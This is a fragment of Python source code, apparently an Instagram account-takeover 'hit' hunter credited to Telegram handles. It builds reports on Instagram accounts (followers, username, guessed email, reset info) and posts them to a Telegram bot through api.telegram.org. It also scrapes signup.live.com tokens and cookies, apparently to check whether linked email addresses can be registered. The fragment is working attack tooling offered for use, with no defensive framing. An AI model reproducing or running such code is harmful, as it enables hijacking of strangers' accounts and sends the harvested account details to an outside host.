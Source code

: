 	    try:
	        ff = f"""
	┒
	┃ 𝗡𝗲𝘄 𝗵𝗶𝘁 𝗶𝗴 𝗮𝗰𝗰𝗼𝘂𝗻𝘁
	┗
	════════════════
	⌊ Followers ⌉  :  {followers}
	⌊ Following ⌉  :  {following}
	⌊ Username ⌉  :  {username}
	⌊ Posts ⌉  :  {posts}
	⌊ Email ⌉  :  {username}@{jj}
	⌊ Date ⌉  :  {date}
	⌊ Rest ⌉  :  {rrr}
	════════════════
	≣ By @LEGEND_MAINCHAT @IM4RC0
	        """
	        requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")
	    except:
	        ff = f"""
	┒
	┃ 𝗡𝗲𝘄 𝗵𝗶𝘁 𝗶𝗴 𝗮𝗰𝗰𝗼𝘂𝗻𝘁
	┗
	════════════════
	⌊ Username ⌉  :  {username}
	⌊ Email ⌉  :  {username}@{jj}
	⌊ Rest ⌉  :  {rest(username)}
	════════════════
	≣ By @LEGEND_MAINCHAT @IM4RC0
	        """
	        requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")
	while True:
	    try:
	        res = gg('https://signup.live.com/signup')
	        amsc = res.cookies.get_dict().get('amsc')
	        canary = res.text.split('"apiCanary":"')[1].split('"')[0].encode().decode('unicode_escape')
	        cookies = {
	            'amsc': amsc,
	        }
	        headers = {
	            'authority': 'signup.live.com',
	            'accept': 'application/json',
	            'canary': canary,
	            'origin': 'https://signup.live.com',
	            'referer': 'https://signup.live.com/signup?lic=1&uaid=f26d1e8726944e3f9cc96aafdfdf8225',
	            'user-agent': 'Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Mobile Safari/537.36',
	        }
	
	        json_data = {
	            'clientExperiments': [
	                {
	                    'parallax': 'enablejspublickeydeprecationexperiment',
	                    'control': 'enablejspublickeydeprecationexperiment_control',
	                    'treatments': [
	                        'enablejspublickeydeprecationexperiment_treatment',
	                    ],
	                },
	            ],
	        }
	